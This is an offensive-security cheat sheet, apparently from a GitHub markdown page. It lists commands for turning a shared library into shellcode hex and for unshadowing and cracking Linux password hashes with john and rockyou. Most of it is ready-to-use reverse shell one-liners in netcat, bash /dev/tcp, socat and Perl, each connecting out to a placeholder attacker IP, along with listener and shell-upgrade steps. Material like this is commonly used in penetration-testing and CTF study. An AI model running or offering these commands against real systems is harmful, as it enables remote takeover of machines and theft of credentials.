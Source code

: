 ```
```

# Generate Shellcode from file
```
xxd -p lib.so | tr -d '\n' > lib.hex
# add '0x' before shellcode
```

# unshadow passwd file
```
unshadow passwd-file.txt shadow-file.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

# Reverse Shells
Use rlwrap to use arrow keys within reverse shell
```
rlwrap nc -lvnp 3141
```

Upgrade Reverse Shell:

1. `` Ctrl+z`` to background session
2. `` stty raw -echo``
3. ``fg`` to foreground session again

## Netcat
```
nc -e /bin/sh 10.0.0.1 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f # in case wrong version of nc is installed
```

## Bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Socat
```
# Listener
socat -d -d TCP4-LISTEN:443 STDOUT
# Send bash reverse shell
socat TCP4:10.10.10.10:443 EXEC:/bin/bash
```

## Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
